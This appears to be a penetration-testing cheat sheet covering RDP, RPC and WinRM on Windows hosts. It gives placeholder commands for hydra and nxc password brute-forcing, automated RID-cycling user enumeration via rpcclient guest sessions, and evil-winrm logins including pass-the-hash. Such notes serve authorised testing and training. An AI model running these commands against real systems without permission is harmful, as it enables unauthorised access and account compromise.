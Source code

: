 ### RDP - 3389

```shell
nxc rdp <ip> -u <user> -p <pass>

# bruteforce
hydra -L <USERS> -p <PASSWORD> rdp://<IP>
```

#### RPC RID Cycling Attack

If we can connect but have no permissions to enum, maybe we can enum by RID Cycling.

```shell
# first, enum administrator
> rpcclient -U "guest%" <ip> -c 'lookupnames administrator'
administrator S-1-5-21......-500
# the rid is 500, so we can lookupsids increasing the rid
> rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-501'
> rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-502'
# this can be automated 
seq 400 2000 | xargs -P 50 -I {} rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-{}'
```

### WinRM - 5985 (HTTP), 5986 (HTTPS)

```shell
nxc winrm <ip> -d <domain> -u userlist -p passwordlist
nxc winrm <ip> -d <domain> -u userlist -p passwordlist -x "whoami"

# if the user belongs to the remote management group or has admin privileges
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -H <hash> 
```
